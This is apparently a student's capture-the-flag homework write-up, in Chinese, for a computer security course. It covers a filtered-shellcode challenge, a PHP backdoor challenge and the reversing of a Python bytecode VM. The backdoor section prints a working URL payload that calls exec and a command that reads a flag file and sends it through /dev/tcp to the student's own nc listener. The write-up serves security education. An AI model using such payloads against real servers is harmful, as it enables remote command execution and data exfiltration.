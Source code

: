 # Computer Security Homework 0x00
Real name: 涂世昱
Nickname: R07922115
Student ID: R07922115

## shellc0de
這題目的是輸入一段 shellcode 被當成函數來執行, 所輸入的 shellcode 進行 syscall 去執行 /bin/sh 的操作, 而後找到 flag 位置並且輸出。 這段 shellcode 是由一段 assembly 經過 pwntools 所轉成的一串 bytecode, 而這段 assembly 所作的事情就是 execve("/bin/sh"), 將此 assembly 用 pwntools 的 asm() 函數包起來就會變成一個字串, 又因為 syscall 這個 assembly 所轉成的字串會被轉換成 '\x0f\x05', "mov rax, 59" (指定 syscall 為 execve) 會變成 'H\xc7\xc0;\x00\x00\x00', 而在 shell.c 當中就會把 0x00, 0x05, 0x0f 判斷, 若是 shellcode 當中出現這幾個 byte 就會終止執行。 於是我將轉出來的 bytecode 用 pwnlib.encoders.encoder.encode 將 shellcode 再轉換成不包含那些 byte 的 shellcode, 但維持原先的 assembly 操作, 最終就可以解出這題。

## open my backdoor
進入連結打開門之後會出現 php 程式碼, 仔細觀察後得出結果是它會由 url 輸入的變數, $_GET[87], 來決定所要執行的函數名稱, 且此函數名稱是由四個英文字母所組成的, 就可以聯想出像是 echo, exec, eval, ..., 這些可能, 然後將這些東西和 'd00r' 對照 ascii table 16進位的結果在 xor 就可得出該輸入的 url 內容, 例如

```info
'd00r' ^ 'exec' = ['0x1', '0x48', '0x55', '0x11'] -> url: ?87=%01HU%11
```

, 接著再透過 \$_POST{'#'} (e.g. ${"_\x50\x4f\x53\x54"}{\$c}) 來傳入此函數的參數。 因為最終目標是將 server 的 flag 印出來, 所以勢必先將所在位置的檔案都印出來。首先先考慮 echo($(system(ls))), 但根據 php manual
  > 
  Note: Because this is a language construct and not a function, it cannot be called using variable functions. 
  故此法行不通

接著只好試試 exec(ls), 但問題是該如何把 server 那邊 ls 的結果傳回本地呢? 可以先用 nc 在本地開一個 listening port, 再將 server ls 的結果 redirect 到 /dev/tcp/<ip>/<port> 即可。 就發現 flag 被放在 ~/flag__is_here 故最終的解法為:

  >
  labpc terminal 執行: nc -l 8888 
  url: http://edu-ctf.csie.org:10151/d00r.php?87=%01HU%11
  post: #=cat ~/flag_is_here > /dev/tcp/<lab pc ip>/8888

## encrypt

## m4chine
將程式用 python 執行之後發現它要我輸入 flag, 故判斷這題應該是輸入正確的 flag, 程式應該就會輸出 "you got the flag!", 之類的結果。 由於助教給的是 pyc 執行檔, 除了 decompile 之外也沒其他線索該怎麼把 flag 猜出來, 於是就找到了 [Uncompyle6](https://github.com/rocky/python-uncompyle6), 成功將它 decompile 成原始碼, 在原始碼當中可觀察出我們所輸入的 flag 會經過 push, pop, add, sub, cmp 等操作, 然後根據 code 當中的 bytecode 會決定出這些操作的順序, 所以就可以開始改原始碼, 先猜測 flag 為 "FLAG{abcd}", 將操作和 context 結果都印出來, 就發現它都會在 cmp 之後停止, 且在它之前的操作都是 push, pop, sub, add, 且這些操作都是從 context 的最後一個元素來做操作的, 例如

```bash
❯ ./m4chine.py
So, what is the flag ? >> FLAG{abcd}
[70, 76, 65, 71, 123, 97, 98, 99, 100, 125] sub, [70, 76, 65, 71, 123, 97, 98, 99, 25]
[70, 76, 65, 71, 123, 97, 98, 99, 25] push 8, [70, 76, 65, 71, 123, 97, 98, 99, 25, 8]
[70, 76, 65, 71, 123, 97, 98, 99, 25, 8] add, [70, 76, 65, 71, 123, 97, 98, 99, 33]
cmp 33 100
[70, 76, 65, 71, 123, 97, 98, 99, 0]
You fail, try again
```

我們所輸入的 flag 會變成 ascii 的十進位結果存到 context 當中, 首先,  sub 會將 context 最後兩個元素相減然後再放到最後一個位置, push 8 則會把 8 push 到後面, add 則是將最後兩元素相加然後將結果放到最後一個位置, 最後 cmp 則是把 context 最後一個元素, 33, 和 100 比較, 發現他們兩個不相等則終止執行。 所以我們就可以猜測因為最後一個字一定是 '}', 所以倒數第二個字應該要是 '!' 最後才能和 100 相等, 所以下次就以 'FLAG{abcd!}' 做嘗試, 最終就可以完全把 flag 推測出來了。


## Winmagic

